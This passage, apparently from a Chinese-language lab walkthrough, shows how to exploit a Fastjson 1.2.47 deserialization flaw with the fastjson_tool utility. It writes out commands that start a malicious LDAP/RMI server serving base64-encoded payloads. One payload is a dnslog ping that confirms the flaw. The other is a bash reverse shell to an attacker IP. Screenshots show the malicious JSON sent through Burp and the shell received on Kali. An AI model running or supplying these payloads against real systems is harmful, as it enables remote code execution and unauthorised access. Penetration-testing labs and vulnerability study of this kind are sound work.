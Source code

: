 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010524734-270611a1-5b20-4bac-89ea-5a310844ea65.png#clientId=u7cd9ae79-4115-4&from=paste&id=u03d2c34d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=504&originWidth=1058&originalType=binary&ratio=1&size=63112&status=done&style=none&taskId=uee2c5f2b-b336-43b2-83e1-fc5aa25901a)


#### 6）kali收到shell

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645010550161-56df26a1-ffc2-42cb-8cc4-6491ad6cd557.png#clientId=u7cd9ae79-4115-4&from=paste&id=ueca5fb4f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=335&originWidth=772&originalType=binary&ratio=1&size=71263&status=done&style=none&taskId=u9f394fee-98ec-4d8a-8868-228704c1e67)


## 4.2 fastjson_tool 工具
### 1、使用dnslog验证是否存在漏洞
1）开启一个LDAP服务，命令用base64编码，Fastjson1.2.47使用第二个payload
```shell
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.210.156 9988 "bash -c {echo,cGluZyA0b296aGcuZG5zbG9nLmNu}|{base64,-d}|{bash,-i}"
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645078705760-37933c98-454b-4d54-ade2-818579b3aab9.png#clientId=u99fb2d32-3b09-4&from=paste&id=u020f9195&margin=%5Bobject%20Object%5D&name=image.png&originHeight=112&originWidth=1640&originalType=binary&ratio=1&size=46512&status=done&style=none&taskId=u397b883b-b71a-418b-bb96-9605708c192)
​

2）使用burp发送恶意json数据（POST数据包）

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645078755953-31aacbb4-774f-41d0-b239-831abd2f637e.png#clientId=u99fb2d32-3b09-4&from=paste&height=349&id=u5d7ebfba&margin=%5Bobject%20Object%5D&name=image.png&originHeight=466&originWidth=1123&originalType=binary&ratio=1&size=72100&status=done&style=none&taskId=ub3cd460c-78db-4ccd-9cdc-2345f47ecdb&width=842)
​

3）LDAP服务有连接记录：

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645078612079-35d480ea-7342-4c32-97db-cead2c4d73b1.png#clientId=u99fb2d32-3b09-4&from=paste&id=u73e7d5e8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=217&originWidth=1625&originalType=binary&ratio=1&size=83087&status=done&style=none&taskId=ub962a262-4e5a-4a24-8238-30be217860c)
​

4）查看dnslog有解析记录，证明漏洞存在。


![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645903983799-c83a9cf0-a04c-4d6a-b805-84c258121769.png#clientId=u5df42e45-922d-4&from=paste&height=164&id=u315ef210&margin=%5Bobject%20Object%5D&name=image.png&originHeight=327&originWidth=741&originalType=binary&ratio=1&size=59874&status=done&style=none&taskId=u6f7e6268-5acc-4ce7-a22f-3154615af29&width=371)

### 2、反弹shell
1）开启一个LDAP服务，命令用base64编码，Fastjson1.2.47使用第二个payload
```shell
java -cp fastjson_tool.jar fastjson.HRMIServer 192.168.210.156 9988 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMC4xNTYvMTExMSAwPiYx}|{base64,-d}|{bash,-i}"
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645067790992-e66be258-611f-4493-9423-9802b2575d3d.png#clientId=u911901bf-4e8c-4&from=paste&id=ud2aab007&margin=%5Bobject%20Object%5D&name=image.png&originHeight=114&originWidth=1637&originalType=binary&ratio=1&size=55765&status=done&style=none&taskId=ucd1cb4fe-e663-4243-96f5-d7dc0ea7782)


2）使用burp发送恶意json数据（POST数据包），LDAP服务有连接记录

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645078327238-b6e7d74a-5620-4b26-8610-9c56d3f2258a.png#clientId=u99fb2d32-3b09-4&from=paste&id=u479f58b3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=232&originWidth=1646&originalType=binary&ratio=1&size=89903&status=done&style=none&taskId=u758b4c97-dc16-44b0-8275-e623709457e)
​

3）成功反弹

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645078936843-2e8a2b44-3a05-4eb7-9cc9-315256311c69.png#clientId=u99fb2d32-3b09-4&from=paste&height=130&id=uab19dcfd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=173&originWidth=618&originalType=binary&ratio=1&size=33396&status=done&style=none&taskId=u4a2a8c5a-9257-4f50-9d6f-e5662c4fde9&width=464)

